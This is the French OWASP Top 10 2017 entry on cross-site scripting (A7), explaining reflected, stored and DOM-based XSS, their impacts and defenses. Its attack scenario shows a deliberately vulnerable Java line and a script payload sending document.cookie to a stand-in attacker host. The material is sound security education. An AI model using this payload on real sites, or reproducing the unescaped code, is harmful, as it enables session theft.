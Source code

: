 # A7:2017 Cross-Site Scripting (XSS)

| Facteurs de Menace/Vecteurs d'Attaque | Vulnérabilités           | Impacts               |
| -- | -- | -- |
| Accès Lvl : Exploitation 3 | Fréquence 3 : Détection 3 | Techniques 2 : Métier ?  |
| Des outils automatisés permettent de détecter et d'exploiter les trois types de XSS et des frameworks d'exploitation gratuits sont disponibles. | XSS est le deuxième problème le plus fréquent de l'OWASP Top 10 et on le retrouve dans près de 2/3 des applications. Les outils automatisés peuvent trouver automatiquement quelques failles XSS, en particulier dans des technologies matures telles que PHP, J2EE / JSP, et ASP.NET. | L'impact de XSS est modéré pour les "XSS basés sur DOM" et les "XSS Réfléchis", et grave pour les "XSS Stockés", avec des exécutions à distance dans le navigateur de la victime, comme du vol de comptes d'accès, de sessions, ou de la distribution de logiciel malveillant à la victime. |

## Suis-je Vulnérable ?

Il y a trois types de XSS, ciblant habituellement les navigateurs de victimes:

* **XSS Réfléchi**: L'application ou l'API intègre les entrées utilisateur, sans validation ni contrôle des caractères spéciaux, comme partie intégrante de la sortie HTML. Une attaque réussie permet à l'attaquant d'exécuter du HTML et du JavaScript arbitraire dans le navigateur de la victime. Typiquement, l'utilisateur devra interagir avec un lien malicieux redirigeant vers une page contrôlée par l'attaquant, comme un site web malicieux de type "point d'eau", publicitaire, ou équivalent.
* **XSS Stocké**: L'application ou l'API stocke des entrées utilisateur, ni contrôlées ni assainies, qui seront vues ultérieurement par un autre utilisateur ou un administrateur. Ces XSS stockés sont souvent considérés comme un risque élévé, voire critique.
* **XSS basé sur DOM**: Les environnements JavaScript, les applications monopage, et les APIs qui intègrent dynamiquement à la page, des données contrôlables par l'attaquant, sont vulnérables au XSS basé sur DOM. En règle générale, l'application ne doit pas transmettre de données contrôlables par l'attaquant à des APIs Javascript non sûres.

Les attaques habituelles de type XSS sont le vol de session, la prise de contrôle de compte, le contournement MFA, le remplacement ou le défacement de noeud DOM (comme des fenêtres de connexion-cheval de troie), des attaques du navigateur de l'utilisateur tels que des téléchargements de maliciels, des enregistreurs de frappe, et autres attaques du client.

## Comment s'en Prémunir ?

Se protéger des attaques XSS nécessite la séparation des données non sûres du contenu actif du navigateur. 
Pour cela:

* Utiliser des frameworks avec des techniques automatiques d'échappements XSS par conception, comme les dernières versions de Ruby on Rails et React JS. Regarder les limitations de protection XSS de votre framework et prener les mesures appropriées pour couvrir les cas non gérés.
* Appliquer des techniques d'échappement aux données, des requêtes HTTP non sûres, selon le contexte des sorties HTML dans lequel elles seront insérées (body, attribute, JavaScript, CSS, ou URL). Cela résoudra les vulnérabilités des XSS Réfléchis ou Stockés. Le [Cheat Sheet OWASP 'Prévention XSS'](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) donne des détails sur les techniques requises d'échappement des données.
* Appliquer un encodage adapté au contexte lors des modifications des documents du navigateur du client est une protection contre les XSS basés sur DOM. Quand cela ne peut être évité, des techniques d'échappement, adaptées au contexte, peuvent être appliquées aux APIs du navigateur comme indiqué dans la [Cheat Sheet OWASP 'DOM based XSS Prevention'](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Etablir une [Politique de Sécurité du Contenu (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) comme mesure de défense-en-profondeur limitant les attaques XSS. Cela sera efficace s'il n'y a pas d'autre vulnérabilité qui permettrait de déposer du code malicieux par insertion de fichier en local (e.x. écrasement par attaque de type "traversée de répertoire" ou via des bibliothèques vulnérables des réseaux de diffusion de contenu (CDN) autorisés).

## Exemple de Scénario d'Attaque

**Scénario #1**: L'application utilise des données non sûres dans la construction du fragment de code HTML sans validation ni technique d'échappement:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

L'attaquant remplace le paramètre ‘CC’ du navigateur par:
`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Cette attaque envoie l'ID de session de la victime vers le site web de l'attaquant, lui permettant ainsi  de détourner la session active de l'utilisateur.

**Note**: Les attaquants peuvent utiliser XSS pour invalider les défenses automatisées anti Falsification-de-requête-intersite (CSRF) que l'application peut avoir mises en place.

## Références

### OWASP

* [OWASP Proactive Controls: Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls: Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard: V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP Cheat Sheet: XSS Prevention](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: DOM based XSS Prevention](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP Cheat Sheet: XSS Filter Evasion](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)
* [OWASP Java Encoder Project](https://www.owasp.org/index.php/OWASP_Java_Encoder_Project)

### Externes

* [CWE-79: Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection)
